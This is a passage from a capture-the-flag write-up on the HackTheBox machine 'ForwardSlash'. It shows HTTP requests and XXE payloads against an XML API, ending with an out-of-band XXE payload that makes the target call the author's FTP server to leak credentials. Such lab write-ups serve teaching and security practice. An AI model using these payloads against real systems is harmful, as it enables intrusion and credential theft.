 Let's try to send a default request to the XML api:

```
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
...
Cookie: PHPSESSID=mbmjmv76c2veso4c1ihneuh5bt

url=http://backup.forwardslash.htb/dev/index.php?xml=<cyfun></cyfun>
```

Nothing fancy yet.

### HTTP exploitation: XXE

We noticed in the HTML code the following structure:

```xml
<api>
    <request>test</request>
</api>
```

So let's try to forge a simple XXE payload using it:

```xml
<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY xxe "cyfun">]>
<api>
  <request>&xxe;</request>
</api>
```

So I tried to send something like that:

```
url=http://backup.forwardslash.htb/dev/index.php?xml%3d<?xml%20version%3d"1.0"%20?><!DOCTYPE%20replace%20[<!ENTITY%20xxe%20"cyfun">]><api>%20%20<request>%26xxe;</request></api>
```

But this doesn't work. But let's remember the FTP hint!

Maybe the XXE is OOB (Out Of Band) only. In general, working with FTP for OOB is far better
than HTTP as it wil allows us to retrieve the whole file rather than the 1st line.
Here I don't think we will retrieve files but rather credentials as it's said there
is a FTP autologin feature. So we won't need a complex payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "ftp://10.10.15.32/"> %ext;
]>
<api>
  <request>
    dontcare
  </request>
</api>
```
